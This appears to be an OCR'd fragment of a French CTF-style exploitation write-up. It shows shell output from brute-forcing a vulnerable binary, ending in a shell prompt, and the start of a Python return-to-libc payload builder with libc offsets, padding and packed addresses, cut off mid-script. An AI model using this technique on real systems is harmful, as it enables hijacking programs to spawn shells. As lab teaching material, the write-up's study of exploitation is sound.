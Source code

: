 ```bash
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
*** stack smashing detected ***: <unknown> terminated
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
Dumping Binary
Redirect Me if you can !
$ ls
asmdump  echo  file  Makefile  out  solv.py  vuln
$ 
```
----

Code plus générique pour la construction d'une payload:

```python
#!/usr/bin/python
import struct
import subprocess

base=0xf7e07a60
while(True):
    exit=base+0
    system=base+53120
    binsh=base+1364042

    padding = 'A'*140
    system_code = struct.pack('I',system)
    exit_code   = struct.pack('I',exit)
    binsh_code  = struct.pack('I',binsh)
```